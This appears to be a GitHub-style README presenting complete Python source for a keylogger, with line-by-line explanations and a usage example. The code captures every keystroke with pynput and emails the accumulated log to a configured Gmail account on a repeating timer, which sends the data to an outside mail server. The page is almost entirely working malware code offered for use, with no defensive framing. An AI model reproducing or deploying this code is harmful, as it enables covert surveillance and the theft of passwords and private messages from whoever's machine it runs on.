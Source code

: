 # keylogger
Importing Libraries

python

import smtplib
import pynput.keyboard
import threading

    smtplib: This module defines an SMTP client session object that can be used to send email.
    pynput.keyboard: This module allows monitoring and controlling keyboard input.
    threading: This module is used to run tasks in separate threads, enabling tasks to be performed concurrently.

Class: Keylogger

python

class Keylogger:
    def __init__(self, time_interval, email, password):
        self.log = "Keylogger started "
        self.interval = time_interval
        self.email = email
        self.password = password

    __init__(self, time_interval, email, password): Initializes the Keylogger object.
        self.log: A string to store the log of key presses.
        self.interval: Time interval (in seconds) for sending the log via email.
        self.email: The email address to send the log to.
        self.password: The password for the email account used to send the log.

Method: append_to_log(self, string)

python

def append_to_log(self, string):
    self.log = self.log + string

    Appends the provided string to the log.

Method: process_keypress(self, key)

python

def process_keypress(self, key):
    try:
        current_key = str(key.char)
    except AttributeError:
        if key == key.space:
            current_key = " "
        else:
            current_key = " " + str(key) + " "
    self.append_to_log(current_key)

    process_keypress(self, key): Handles key press events.
        try: Attempts to get the character of the key pressed.
        except AttributeError: Handles special keys (like space, enter, etc.).
        Appends the pressed key to the log.

Method: send_mail(self, email, password, message)

python

def send_mail(self, email, password, message):
    server = smtplib.SMTP("smtp.gmail.com", 587)
    server.starttls()
    server.login(email, password)
    server.sendmail(email, email, message)
    server.quit()

    send_mail(self, email, password, message): Sends an email with the log.
        Connects to Gmail's SMTP server.
        Starts TLS encryption.
        Logs in to the email account.
        Sends the email with the logged keystrokes.
        Closes the connection to the SMTP server.

Method: report(self)

python

def report(self):
    self.send_mail(self.email, self.password, "\n\n" + self.log)
    self.log = " "
    timer = threading.Timer(self.interval, self.report)
    timer.start()

    report(self): Sends the log via email at regular intervals.
        Sends the email with the current log.
        Clears the log.
        Sets a timer to call itself again after the specified interval.

Method: start(self)

python

def start(self):
    keyword_listener = pynput.keyboard.Listener(on_press=self.process_keypress)
    with keyword_listener:
        self.report()
        keyword_listener.join()

    start(self): Starts the keylogger.
        pynput.keyboard.Listener(on_press=self.process_keypress): Sets up a keyboard listener that calls process_keypress on key press events.
        with keyword_listener: Starts the listener.
        self.report(): Initiates the first report call.
        keyword_listener.join(): Waits for the listener to finish (runs indefinitely).

Summary

This script defines a Keylogger class that captures keystrokes and sends them via email at regular intervals. Here's how it works:

    Initialization: The keylogger is initialized with a time interval, email address, and password.
    Key Press Handling: Each key press is logged, handling both regular and special keys.
    Email Sending: Periodically sends the logged keys to the specified email address.
    Starting the Keylogger: Begins capturing keystrokes and starts the periodic reporting.

Usage

To use this keylogger:

    Create an instance of Keylogger with the desired time interval, email, and password.
    Call the start method on the instance to begin logging keystrokes and sending emails.

Example Usage

python

my_keylogger = Keylogger(120, "your_email@gmail.com", "your_password")
my_keylogger.start()

    This example creates a keylogger that sends the log every 120 seconds to "your_email@gmail.com" using "your_password".
